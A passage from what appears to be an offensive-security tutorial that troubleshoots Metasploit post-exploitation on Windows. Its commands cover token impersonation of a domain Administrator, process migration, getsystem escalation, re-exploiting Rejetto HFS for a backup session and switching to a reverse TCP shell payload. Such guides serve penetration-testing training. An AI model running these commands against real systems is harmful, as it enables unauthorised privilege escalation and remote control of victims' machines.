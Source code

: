 **Why This Happens:**
- Token impersonation succeeded but context didn't change
- Process architecture mismatch
- Antivirus interference

**Expert Solutions:**
```bash
# Solution 1: Force context refresh
rev2self
impersonate_token DOMAIN\\\\Administrator
getuid

# Solution 2: Migrate to compatible process first
ps
# Find process matching target architecture
migrate [compatible_PID]
load incognito
impersonate_token DOMAIN\\\\Administrator

# Solution 3: Alternative escalation method
getsystem
# Direct escalation to SYSTEM if available
```

**Verification Steps:**
- Run getuid immediately after impersonation
- Test file access to confirm privileges
- Try alternative commands to verify context

---

### **❌ Problem 4: Meterpreter Session Becomes Unstable**

**What You See:**
```bash
meterpreter > list_tokens -u
[-] Request failed: Rex::TimeoutError Operation timed out.
```

**Why This Happens:**
- Network connectivity issues
- Target system overloaded
- Antivirus detection

**Expert Solutions:**
```bash
# Solution 1: Migrate to more stable process
ps
# Look for stable, long-running processes
migrate [stable_PID]

# Solution 2: Establish backup session
background
use exploit/windows/http/rejetto_hfs_exec
set SESSION -1
set RHOSTS target_ip
exploit

# Solution 3: Use alternative payload
set payload windows/shell/reverse_tcp
# Sometimes shell is more stable than meterpreter
```
